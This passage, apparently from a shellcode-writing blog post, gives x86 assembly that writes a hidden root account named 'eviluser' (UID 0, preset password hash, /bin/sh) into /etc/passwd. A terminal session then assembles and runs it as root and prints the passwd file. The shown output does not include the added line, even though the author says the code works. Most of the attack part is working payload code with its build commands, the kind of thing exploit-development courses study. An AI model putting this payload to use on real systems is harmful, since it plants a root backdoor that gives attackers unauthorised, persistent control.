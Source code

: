        xor eax,eax
        mov eax,0x1
        mov ebx,0x0
        int 0x80

newuser:
        call back_newuser
        db "eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh",0x0a,0x00
filename:
        call back_filename 
        db "/etc/passwd",0x00

calculate_len:
        xor ecx, ecx
        xor esi, esi
        mov ecx, [esp+0x4]   ; ecx -> "lasha"
loop:
        cmp byte [ecx], 0x00
        jne increment
        jmp exit

increment:
        inc ecx
        inc esi
        jmp loop

exit:
        mov ecx,[esp+0x4]
        ret
{% endhighlight %}

This assembly code is a bit long and maybe wrong in some places and needs optimization BUT in works :)
~~~
root@ubuntu:~/user-add-shlc# vim useradd4.asm 
root@ubuntu:~/user-add-shlc# nasm -f elf32 useradd4.asm -o useradd4.o
root@ubuntu:~/user-add-shlc# ld useradd4.o -o useradd4
root@ubuntu:~/user-add-shlc# ./useradd4 
root@ubuntu:~/user-add-shlc# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
higgsx:x:1000:1000:higgsx,,,:/home/higgsx:/bin/bash
~~~